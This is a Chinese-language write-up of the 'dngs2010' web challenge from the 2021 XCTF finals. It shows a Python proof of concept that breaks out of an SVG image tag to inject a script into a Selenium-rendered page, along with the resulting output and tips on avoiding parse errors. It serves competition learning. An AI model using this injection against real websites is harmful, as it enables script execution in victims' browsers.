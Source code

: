 ```yaml
---
title: 第六届XCTF决赛部分Writeup
date: 2021-5-30
tags:
    - CTF
    - Writeup
    - XCTF
---
```


## Prologue

这应该是我个人最近最后一场比赛了，整体而言挺开心的，还和诸葛老师合了影（  

## dngs2010

由于源码里摆明了让我们去选svg，那我们就去选svg。
在返回的页面中，我们能看到我们输入的内容被这样拼接进了html：

```html
<image x="10" y="10" width="100" height="100"
    href="http://q1.qlogo.cn/g?b=qq&nk={input}&s=640"></image>
```

继续浏览题目，发现选择二进制格式进行生成时除了像素低一点别的都一样，联想到题目中的selenium，不难猜到后段是用chrome渲染svg然后截图。多试几次就能发现，我们的输入位于 `/img/` 后的url中，程序取最后一个 `.` 前的内容作为输入，之后的内容作为生成方式。
自然而言，我们就是要打这个selenium了，不管怎么样先得xss，自然而言就得闭合标签。然而这里基本什么过滤都没有，非常舒适。

proof of concept:

```python
print(ses.get('http://172.35.6.36:3000/img/745679136" style="height:0">'+quote(f'''</image>
<script>console.log(1)</script>
<image>''', safe=' <>')+'.svg').text)
```

result:

```html
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="480px" height="120px" fill="#71e8f6" xmlns="http://www.w3.org/2000/svg">
略
<image x="10" y="10" width="100" height="100" href="http://q1.qlogo.cn/g?b=qq&nk=745679136" style="height:0"></image>
<script>console.log(1)</script>
<image>&amp;s=640"></image>
<text x="120" y="25">晚上好,来自美国(T-Mobile)的朋友</text>
略
</svg>
```

这里有两个小细节：

* xml规定一份文档只能有一个根结点，也就是说我们**不能**闭合svg标签。如果闭合了svg标签，html会报错导致截图不全，且svg闭合后的内容不会被渲染。
* 由于页面没有指定 `DOCTYPE HTML` ，我们的script标签中不能出现小于号大于号，不然会被识别成xml标签。
